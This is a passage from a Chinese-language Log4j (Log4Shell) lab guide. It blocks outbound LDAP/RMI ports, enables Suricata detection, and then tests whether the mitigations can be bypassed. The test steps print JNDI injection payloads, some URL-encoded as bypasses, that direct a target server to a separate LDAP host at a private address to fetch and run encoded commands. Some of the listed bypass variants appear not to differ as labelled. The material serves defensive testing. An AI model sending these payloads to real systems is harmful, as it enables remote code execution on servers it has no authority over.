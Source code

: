 2. **限制 LDAP 和 RMI 出站连接**

   - 通过 `iptables` 或防火墙规则禁用出站 LDAP/RMI 请求：

   ```bash
   iptables -A OUTPUT -p tcp --dport 1389 -j DROP
   iptables -A OUTPUT -p tcp --dport 1099 -j DROP
   ```

3. **在 Suricata 中启用检测规则**

   - 启用 Suricata 中针对 Log4j 的规则（`ET EXPLOIT` 和 `ET POLICY`）：

   ```bash
   suricata-update
   ```

   - 通过 Suricata 捕获漏洞尝试并报警：

   ```bash
   docker exec -it suricata tail -f /var/log/suricata/fast.log
   ```

------

### ✅ **阶段 2：测试缓解效果**

🔹 目标：在缓解措施开启后，尝试绕过缓解策略，确认漏洞是否仍然存在
 🔹 操作步骤：

1. **测试基础 Payload（预期失败）**

   - 使用基础的 Log4j Payload 测试是否已经成功拦截：

   ```bash
   curl -G http://192.168.109.4:22220//hello \
   --data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmF...}'
   ```

2. **尝试绕过策略**
    ✅ 使用不同的字符逃逸方法（大小写绕过）：

   ```bash
   ${jndi:ldap://192.168.109.5:1389/tomcatBypass/Command/Base64/...}
   ```

   ✅ 使用分隔符或空格绕过：

   ```bash
   ${jndi:ldap://192.168.109.5:1389/tomcatBypass/Command/Base64/...
   ```

   ✅ URL 编码绕过：

   ```bash
   ${jndi:%6c%64%61%70://192.168.109.5:1389/tomcatBypass/Command/Base64/...}
   ```

3. **使用 Suricata 监控绕过尝试**

   ```bash
   docker exec -it suricata tail -f /var/log/suricata/fast.log
   ```
